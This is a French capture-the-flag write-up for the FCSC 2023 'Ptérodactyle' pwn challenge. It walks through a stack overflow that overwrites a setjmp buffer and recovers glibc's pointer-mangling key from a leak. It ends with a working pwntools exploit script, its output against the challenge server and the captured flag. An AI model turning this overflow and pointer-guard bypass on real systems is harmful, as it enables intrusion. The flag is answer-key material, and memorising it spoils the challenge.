

### Pwn / Ptérodactyle

<p align="center">
  
</p>

Le binaire du challenge nous est fourni : [pterdactyle](files/pterdactyle)


#### Analyse

Plusieurs sécurités sont activées à la compilation sur le binaire, ainsi que l'ASLR sur le serveur:

```bash
$ checksec pterodactyle
[*] '/home/maskott/ctf/fcsc_2023/pwn/pterodactyle/pterodactyle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Une fois lancé, le binaire propose une "interface" de connexion :

```bash
$ ./pterodactyle
1: Log in
0: Exit
>>
```

En regardant le code décompilé dans Ghidra par exemple, on repère rapidement les quelques fonctions utilisées :
- `menu` : affichage du menu
- `decrypt` : "déchiffre" les entrées de l'utilisateur
- `main` : un swtich-case pour traiter les actions demandées par l'utilisateur


#### Login

```c
decrypt(pwd,len);
error = memcmp(login,&USERNAME,5);
if ((error == 0) && (error = memcmp(pwd,&PASSWORD,0x10), error == 0)) {
  local_c = 1;
}
```

Le login et le mot de passe saisis sont passés en arguments à la fonction `decrypt()` :

```c
int decrypt(char *ctx,int out)

{
  int i;

  for (i = 0; i < out; i = i + 1) {
    ctx[i] = ctx[i] ^ 0x77;
  }
  return i;
}
```

Il s'agit d'un xor tout simple avec la constante `0x77`

Les valeurs attendues sont stockées en dur dans le code aux adresses `&USERNAME` et `&PASSWORD`

Et nous pouvons facilement retrouver les clairs :  `admin` et `MySeCr3TP4$$W0rd`, ce qui nous ouvre de nouvelles options dans le menu :

```
$ ./pterodactyle
1: Log in
0: Exit
>> 1
Login:
>> admin
Password:
>> MySeCr3TP4$$W0rd
1: Log in
2: Get cookie
3: Logout
0: Exit
>>
```

#### Flag

Une portion du code de `main` ne semble pas appélée :

```c
...
case 0x2a:
  break;
}

local_10 = open("flag.txt",0);
...
l = read(local_10,login,0x80);
len = (int)l;
...
l = write(1,login,(long)len);
...
longjmp((__jmp_buf_tag *)&save_stack,1);
}
```

Il faudrait pouvoir sortir du switch avec l'option 0x2a pour que la fin de `main` s'exécute, mais des contrôles sur la saisie utilisateur l'empêche.

Par ailleurs la valeur du switch est stockée trop bas sur la stack pour être écrasée directement.

#### Vuln

On peut maintenant regarder la fonction `main` d'un peu plus près, et notamment une boucle étrangement implémentée :
- `_setjmp((__jmp_buf_tag *)&save_stack)` au début de  `main` permet de sauvegarder le contexte d'execution de la fonction
- `longjmp((__jmp_buf_tag *)&save_stack, choice + 1)` au cours de l'exécution (dans les différents `case`) permet de revenir au contexte précédemment sauvegardé.

La valeur de retour de `setjmp` est 0 si c'est elle même qui a été appelée, ou le 2e argument de `longjmp` sinon.

Par ailleurs, on peut rapidement remarquer une vulnérabilité dans le code :

```c
char pwd [32];
char login [32];
...
l = read(0,login,0x80);
...
l = read(0,pwd,0x80);
```

L'utilisateur peut saisir 128 caractères pour le login et pour le mot de passe, qui seront stockés sur la stack dans des buffers de 32 octets.

Regardons alors la stack :

```c
0x7fffffffde00:	0x0000000000000000	0x0000034000000240 <= pwd
0x7fffffffde10:	0x0000034000000340	0x0000034000000340
0x7fffffffde20:	0x0000034000000340	0x0000034000000340 <= login
0x7fffffffde30:	0x0000034000000340	0x0000034000000340

0x7fffffffde40:	0x0000000000000000	0x963539ca3b627b90 <= save env (setjmp)
0x7fffffffde50:	0x0000555555555110	0x0000000000000000
0x7fffffffde60:	0x0000000000000000	0x0000000000000000
0x7fffffffde70:	0x963539ca39227b90	0xc3606c9f231c7b90

0x7fffffffde80:	0x0000000000000000	0x0000000000000100
0x7fffffffde90:	0x0000000000000000	0x0000000000000000 <= max login
0x7fffffffdea0:	0x0000000000000000	0x0000000000000000
0x7fffffffdeb0:	0x0000000000000000	0x0000000000000000
0x7fffffffdec0:	0x0000000000000000	0x0000000000000000
0x7fffffffded0:	0x0000000000000000	0x00000000010cb657
0x7fffffffdee0:	0x0000555555554040	0x00005555555556c5
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000555555555680	0x0000555555555110
0x7fffffffdf10:	0x00007fffffffe010	0x0000000000000000
0x7fffffffdf20:	0x0000555555555680	0x00007ffff7dfbd0a <= rbp
```

Avec login nous pouvons écraser la sauvegarde de l'environnement par `setjmp`

#### Setjmp

Pour aller plus loin il faut regarder en détails comment `setjmp` sauvegarde l'environnement sur la stack.

```c
gdb-peda$ disass _setjmp
Dump of assembler code for function _setjmp:
   0x00007ffff7e10940 <+0>:	xor    esi,esi
   0x00007ffff7e10942 <+2>:	jmp    0x7ffff7e108a0 <__sigsetjmp>
End of assembler dump.
gdb-peda$ disass __sigsetjmp
Dump of assembler code for function __sigsetjmp:
   0x00007ffff7e108a0 <+0>:	mov    QWORD PTR [rdi],rbx
   0x00007ffff7e108a3 <+3>:	mov    rax,rbp
   0x00007ffff7e108a6 <+6>:	xor    rax,QWORD PTR fs:0x30
   0x00007ffff7e108af <+15>:	rol    rax,0x11
   0x00007ffff7e108b3 <+19>:	mov    QWORD PTR [rdi+0x8],rax
   0x00007ffff7e108b7 <+23>:	mov    QWORD PTR [rdi+0x10],r12
   0x00007ffff7e108bb <+27>:	mov    QWORD PTR [rdi+0x18],r13
   0x00007ffff7e108bf <+31>:	mov    QWORD PTR [rdi+0x20],r14
   0x00007ffff7e108c3 <+35>:	mov    QWORD PTR [rdi+0x28],r15
   0x00007ffff7e108c7 <+39>:	lea    rdx,[rsp+0x8]
   0x00007ffff7e108cc <+44>:	xor    rdx,QWORD PTR fs:0x30
   0x00007ffff7e108d5 <+53>:	rol    rdx,0x11
   0x00007ffff7e108d9 <+57>:	mov    QWORD PTR [rdi+0x30],rdx
   0x00007ffff7e108dd <+61>:	mov    rax,QWORD PTR [rsp]
   0x00007ffff7e108e1 <+65>:	xor    rax,QWORD PTR fs:0x30
   0x00007ffff7e108ea <+74>:	rol    rax,0x11
   0x00007ffff7e108ee <+78>:	mov    QWORD PTR [rdi+0x38],rax
   0x00007ffff7e108f2 <+82>:	jmp    0x7ffff7e10900 <__sigjmp_save>
```

Certains registres sont poussés tels quels sur la stack : `r12, r13, r14, r15`

D'autres subissent une transformation (`xor` avec le contenu de `fs:30` puis rotation à gauche de `0x11` octets) : `rbp, rsp+8, rsp`

Malheureusement la valeur de `fs:30` n'est pas fixe [Pointer encryption](https://sourceware.org/glibc/wiki/PointerEncryption)

Cependant on va pouvoir retrouver cette valeur ... (les adresses sont celle de `gdb` avec l'ASLR désactivée)

Au moment de la sauvegarde, `r12 = 0x0000555555555110` qui est l'adressde `_start` et `rsp` contient la sauvegarde de `rip` pour l'appel à `setjmp` soit `-` (l'instruction suivante à l'appel)

```python
tip = 0x000055555555531f-0x0000555555555110 #0x20f
```

Ainsi `save(rsp) = save(r12)+tip`

Et la clé du xor : `k = ror(save(rsp),0x11) xor (save(r12)+tip)`

#### Exploit

Pour l'exploitation nous pouvons maintenant :
- nous connecter avec `login` + `password`
- appeler `2: Get cookie` qui va gentillement nous afficher le contenu de l'environnement sauvegardé par `setjmp`
- retrouver la clef du xor
- nous reconnecter une nouvelle fois, mais en ajoutant un payload au login pour écraser l'environnement sauvegardé, et notamment la sauvegarde de `rsp` pour la remplacer par l'adresse du code inutilisé permettant d'afficher le flag.

L'exploit complet : [exploit.py](files/exploit.py)

```python
  tip_1 = 0x55555555531f
  tip_2 = 0x555555555110
  tip_offset = tip_1 - tip_2

 offset_open = 0x555555555595-tip_1


 login = b'admin'
 pwd = b'MySeCr3TP4$$W0rd'

 r.recvuntil(b'>> ')
 r.send(b'1')
 r.recvuntil(b'>> ')
 r.send(login)
 r.recvuntil(b'>> ')
 r.send(pwd)
 r.recvuntil(b'>> ')
 r.send(b'2')

 sleep(0.5)
 cookie = parse_cookie(r.recv())
 lcookie = list_cookie(cookie)
 lucookie = [u64(c) for c in lcookie]

 xored_cookie = xor(cookie, b'\x77' * len(cookie))
 l_xored_cookie = list_cookie(xored_cookie)
 lu_xored_cookie = [u64(c) for c in l_xored_cookie]

 hex_cookie(lcookie)

 k = rightRotate(lucookie[7], 17)
 k = hex(k)[-16:]
 k = int(k,16)
 print(f"key : {hex(k)}")

 tip = lucookie[2]
 tip += tip_offset

 k = xor(p64(tip),p64(k))


 open = rightRotate(lucookie[7], 17)
 open = hex(open)[-16:]
 open = int(open,16)
 open = p64(open)
 open = xor(open,k)
 open = u64(open)
 print(hex(open))
 open = open + offset_open
 print(hex(open))
 open = p64(open)
 open = xor(open,k)
 open = u64(open)
 open = leftRotate(open,17)
 open = hex(open)[-16:]
 open = int(open,16)
 open = p64(open)
 open = xor(open,b'\x77'*8)
 print(hex(u64(open)))

 payload = login
 payload += b'A' * (32-len(login))
 payload += l_xored_cookie[0]
 payload += l_xored_cookie[1]
 payload += l_xored_cookie[2]
 payload += l_xored_cookie[3]
 payload += l_xored_cookie[4]
 payload += l_xored_cookie[5]
 payload += l_xored_cookie[6]
 payload += open


 r.send(b'1')
 r.recvuntil(b'>> ')

 r.send(payload)
 r.recvuntil(b'>> ')
 r.send(pwd)
 print(r.recv())
 ```

 ```bash
 $ python3 exploit.py REMOTE
 [*] '/home/maskott/ctf/fcsc_2023/pwn/pterodactyle/pterodactyle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2102: Done
0x0
0x5fd21a2f6cb72a01
0x599ac98bb110
0x0
0x0
0x0
0x5fd21a2f53772a01
0x131b56d4aba92a01
key : 0x9500898dab6a55d4
0x599ac98bb31f
0x599ac98bb595
0x646c21a3d1ca5d76
b'FCSC{17dc6f007f4149469fe3d361d5b1c7f9694f3ec363b26e051974540aa6eaf666}\n'
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2102
```
